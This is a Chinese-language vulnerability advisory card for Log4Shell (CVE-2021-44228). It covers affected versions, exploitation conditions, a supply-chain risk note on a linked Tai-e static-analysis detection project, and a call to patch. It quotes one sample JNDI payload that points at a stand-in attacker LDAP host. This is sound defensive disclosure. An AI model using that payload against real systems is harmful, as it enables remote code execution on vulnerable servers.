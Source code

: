 ## CVE-2021-44228-Apache Log4j2-远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）

**利用条件:** 需要目标系统使用受影响的 Log4j2 版本，且允许JNDI 查找。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，又称Log4Shell，是Apache Log4j2中的一个严重漏洞。攻击者可以通过控制日志消息或日志消息参数，利用 JNDI 注入执行任意代码。漏洞利用方式通常涉及在日志消息中插入包含恶意 JNDI 查找的字符串，例如 `${jndi:ldap://attacker.com/evil}`。当 Log4j2 处理此消息时，它会尝试通过 LDAP 从攻击者控制的服务器检索并执行代码。\n\n提供的漏洞利用代码是一个使用 Tai-e 静态分析工具来检测 Log4Shell 漏洞及其触发路径的项目。该项目本身不包含恶意代码，其目的是帮助安全研究人员和开发人员识别和修复受此漏洞影响的应用程序。但是，任何下载和使用漏洞利用代码的行为都存在一定的风险，因为可能存在其他未知的安全问题或依赖项。该项目使用了gradlew脚本，理论上存在一定的投毒风险，可能在编译的时候执行恶意代码，但从代码内容来看，直接投毒的可能性较低。主要风险在于构建脚本依赖的第三方库可能被篡改，导致潜在的供应链攻击。

根据漏洞库信息、搜索结果和漏洞利用代码，该漏洞的利用非常有效，影响广泛。需要尽快修复。


**项目地址:** [Tai-e/CVE-2021-44228](https://github.com/Tai-e/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)